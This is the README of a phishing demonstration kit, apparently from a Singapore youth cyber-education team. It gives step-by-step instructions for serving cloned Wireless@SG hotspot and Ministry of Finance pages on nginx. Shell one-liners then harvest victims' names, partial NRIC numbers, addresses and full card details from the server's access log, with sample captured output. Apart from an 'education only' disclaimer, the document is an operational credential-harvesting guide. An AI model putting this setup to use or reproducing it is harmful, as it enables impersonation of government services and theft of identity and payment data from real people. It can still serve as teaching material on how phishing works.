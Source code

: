 # IMPORTANT!!

THIS PROJECT IS MADE FOR DEMO AND EDUCATION PURPOSE ONLY AND HENCE, THE USE OF THIS REPOSITORY IS AT YOUR OWN RISK. 

WE, SHALL NOT BE LIABLE FOR ANY DAMAGED OR LEGAL CONSENTS BY YOUR USAGE OF THIS PROJECT.

## PREREQUISITE

#### In this section, we will be explaining what are the required packages before we start the installation.
1. Ubuntu 18.04 and above
> https://ubuntu.com/download/desktop
2. nginx web server package
> apt install nginx
3. git package
> apt install git
## INSTALLATION

#### In this section, we will be explaining how to put the files into the webserver and ensure it loads.

1. Clone the git repository into the webserver.
> git clone https://github.com/conan97zhang/CDT_phishing_m3.git
2. Move the CDT_phishing_m3 folder into the Nginx web server's root directory and rename it into m3.
> mv -r CDT_phishing_m3 /var/www/html/m3
3. Associate the domain name hotspot.wireless without localhost IP address.
> nano /etc/hosts
3.1 Amend the following line from

>> 127.0.0.1    localhost
TO

>> 127.0.0.1    hotspot.wireless
4. Start nginx web server

> service nginx start
## EXECUTION

#### In this section, we will be explaining how will the frontend (victim's browser) sends the data to the backend (attacker's server) seamlessly.

1. Load the website on your browser.

> http://hostspot.wireless
2. Start capturing the user inputs by opening 2 different terminals.

##### 2.1 Terminal 1
> tail -f /var/log/nginx/access.log | awk '/NRIC/ {print "\n" "Entry " NR " | " $1 $2 $4 $5 " - WIFI HOTSPOT""\n" "\n"  $7}'
##### 2.2 Terminal 2
> tail -f /var/log/nginx/access.log | awk '/REF/ {print "\n" "Entry " NR " | " $1 $2 $4 $5 " - MOF""\n" "\n"  $7}'
3. Go through all the steps in entering the details (VERY SIMPLE!!!)

## SAMPLE OUTPUT (END OF DEMO).

#### In the last section, we will be analysing the sample data output from Terminal 1 and Terminal 2 ( REFER TO EXECUTION(2) )

##### 1. Terminal 1 ( EXECUTION(2)(1) )

The data presented in this output is the input from the rogue Wireless@SG website.

> Entry 4 | 172.32.0.100-[25/Jul/2020:15:14:57+0800] - WIFI HOTSPOT
> 
> /detected.html?title=Title&input=Mr&name=Full+Name&input=John&NRIC=Last+4+digits+of+NRIC&input=345D&postal+code=Postal+Code&input=123456&address=Address&input=123+Tamp+f

From the above data, we can safely deduce the following imformation:

> Title: Mr
>
> Full Name: John
>
> Last 4 digits of NRIC: 345D
>
> Poster Code: 123456
>
> Address: 123 Tamp f
##### 2. Terminal 2 ( EXECUTION(2)(2) )

The data presented in this output is the input from the rogue Ministry of Finance website. 

> Entry 3 | 172.32.0.100-[25/Jul/2020:15:13:21+0800] - WIFI HOTSPOT
>
> /MOF%20|%20Seek%20Permission%20Form_files/FormFEDYA.html?REF=2020_SPF_MOF&CARD=99999999999999999&CVV=999&EXP=99%2F99

From the above data, we can safely deduce the following imformation:

> Card Number: 99999999999999999
>
> CVV: 999
>
> Exp Date: 99/99

#### NOTE: TO ENSURE THE CORROSPONDING VICTIM FROM TERMINAL 1 AND TERMINAL2 DATA, ALWAYS CHECK THE TIME AND DATE OF INPUT.

##### ====================================================================================================================

# CREDIT AND SUPPORT

#### ZHANG TIANCI CONAN
#### TELEGRAM: https://t.me/conan97zhang
#### INSTAGRAM: https://instagram.com/conan97zhang

@copyright Curriculum Development Team, Cyber Youth SIngapore
